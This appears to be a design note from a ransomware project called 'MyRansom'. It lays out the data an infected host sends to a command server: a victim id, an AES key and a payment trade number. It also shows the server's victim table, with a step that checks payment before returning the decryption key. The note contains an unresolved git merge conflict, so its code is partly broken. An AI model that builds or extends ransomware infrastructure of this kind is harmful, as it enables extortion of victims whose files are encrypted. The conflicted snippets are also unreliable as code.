 # Args of MyRansom

## Infected Host

### init

```python
post_data = {
    'id': uuid.uuid1().hex
}
```

### aes key

```python
self.aes_key = self.enc_key()
post_data = {
    'id': self.id,
    'aes_key': self.aes_key
}
```

### paid

```python
post_data = {
    'id': self.id,
    'aes_key': self.aes_key,
    'ransom': True,
    'out_trade_no': out_trade_no
}
```

## Server

### database

```sql
    ID         VARCHAR(32)    NOT NULL,
    INFTIME    VARCHAR(100)    NOT NULL,
    RANSOM     BOOLEAN         NOT NULL,
    AESKEY     VARCHAR(100)    NOT NULL
```

### viclist

```python
viclist = [
    {
        'id': victim_id,
<<<<<<< HEAD
        'inf_time': time.time()
=======
        'inftime': time.ctime()
>>>>>>> b33833f424f190a3d45f18dd6de8409bdcb4859d
        'ransom': False,
        'AES_key': aes_key
    }
]
```

### verify

```python
if not check_trade(out_trade_no):
    response = {
        'id': victim_id,
        'status': 'failure'
    }
```

### paid

```python
if check_trade(out_trade_no):
    aes_key = dec_key()
    response = {
        'id': victim_id,
        'aes_key': aes_key,
        'status': 'success'
    }
```

## Front-end
